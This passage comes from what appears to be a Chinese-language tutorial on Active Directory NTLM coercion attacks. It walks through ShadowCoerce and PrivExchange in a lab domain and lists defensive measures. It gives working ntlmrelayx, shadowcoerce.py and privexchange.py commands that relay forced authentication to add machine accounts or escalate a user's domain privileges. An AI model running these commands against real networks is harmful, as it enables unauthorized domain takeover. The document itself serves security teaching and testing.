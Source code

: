 #### 攻击流程&amp;相关工具

工具地址 - [ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce)

1. 开启监听器 ntlmrelayx ，这里也同样使用添加机器账户用于确认强制验证成功与否
    
    ```shell
    python3 ntlmrelayx.py -t ldaps://dc01.hack.lab --add-computer JustTest03$ --remove-mic
    ```
2. 使用 shadowcoerce 脚本利用工具，触发强制验证
    
    ```shell
    python3 shadowcoerce.py -u spiderman -p 123.com -d hack.lab 20.20.20.100 20.20.20.6
    ```

![x1Nx4e.png](https://shs3.b.qianxin.com/attack_forum/2022/10/attach-ea0e27833362f87de3bb5e7c73eaff05c4772df0.png)

3. 效果分析  
    可以看到ntlmrelay中执行的添加用户的操作成功执行了，进而验证了 shadowcoerce 强制触发认证攻击成功。

#### 防御措施

- 限制出入站的 NTLM 认证
- 使用认证的扩展保护（EPA）
- 打补丁 CVE-2022-30154

### 05 PrivExchange

#### 攻击原理

在Exchange中，提供了网络服务API - PushSubscription，允许订阅推送通知。Exchange服务器在域中通常有很高的权限（WriteDacl，修改目标ACL的权限），是攻击的不戳目标。

攻击者可以利用该API迫使Exchange服务器对指定目标进行强制认证。

条件：

- 目标为Exchange，且未打补丁
- 拥有一个带有邮箱的域用户凭据信息

#### 攻击流程&amp;相关工具

工具地址 - [PrivExchange](https://github.com/dirkjanm/privexchange/)

实验测试：

> 环境简介  
> 域名 - hack.lab  
> 域控 - DC01 - 20.20.20.5  
> Exchange服务器 - E2016 - 20.20.20.7  
> 域主机 - USER01 - 20.20.20.10  
> Kali - 20.20.20.100

```shell
python3 ntlmrelayx.py -t ldaps://dc01.hack.lab --escalate-user spiderman

python3 privexchange.py -u spiderman -p 123.com -d hack.lab -ah 20.20.20.100 20.20.20.7
```
